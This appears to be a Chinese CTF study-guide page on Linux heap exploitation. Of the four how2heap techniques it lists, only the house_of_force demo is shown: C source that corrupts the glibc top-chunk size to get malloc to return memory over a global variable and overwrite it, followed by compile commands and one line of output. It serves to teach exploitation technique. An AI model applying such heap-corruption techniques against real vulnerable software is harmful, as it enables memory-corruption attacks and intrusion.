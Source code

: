 # 3.3.8 Linux 堆利用（下）

- [how2heap](#how2heap)
  - [house_of_force](#house_of_force)
  - [unsorted_bin_attack](#unsorted_bin_attack)
  - [house_of_einherjar](#house_of_einherjar)
  - [house_of_orange](#house_of_orange)
- [参考资料](#参考资料)


[下载文件](../src/Others/3.3.6_heap_exploit)

## how2heap
#### house_of_force
```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main() {
    fprintf(stderr, "We will overwrite a variable at %p\n\n", bss_var);

    intptr_t *p1 = malloc(0x10);
    int real_size = malloc_usable_size(p1);
    memset(p1, 'A', real_size);
    fprintf(stderr, "Let's allocate the first chunk of 0x10 bytes: %p.\n", p1);
    fprintf(stderr, "Real size of our allocated chunk is 0x%x.\n\n", real_size);

    intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size);
    fprintf(stderr, "Overwriting the top chunk size with a big value so the malloc will never call mmap.\n");
    fprintf(stderr, "Old size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));
    ptr_top[0] = -1;
    fprintf(stderr, "New size of top chunk: %#llx\n", *((unsigned long long int *)ptr_top));

    unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*2 - (unsigned long)ptr_top;
    fprintf(stderr, "\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size, we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
    void *new_ptr = malloc(evil_size);
    int real_size_new = malloc_usable_size(new_ptr);
    memset((char *)new_ptr + real_size_new - 0x20, 'A', 0x20);
    fprintf(stderr, "As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr);

    void* ctr_chunk = malloc(0x30);
    fprintf(stderr, "malloc(0x30) => %p!\n", ctr_chunk);
    fprintf(stderr, "\nNow, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.\n");

    fprintf(stderr, "old string: %s\n", bss_var);
    strcpy(ctr_chunk, "YEAH!!!");
    fprintf(stderr, "new string: %s\n", bss_var);
}
```
```
$ gcc -g house_of_force.c
$ ./a.out 
We will overwrite a variable at 0x601080
```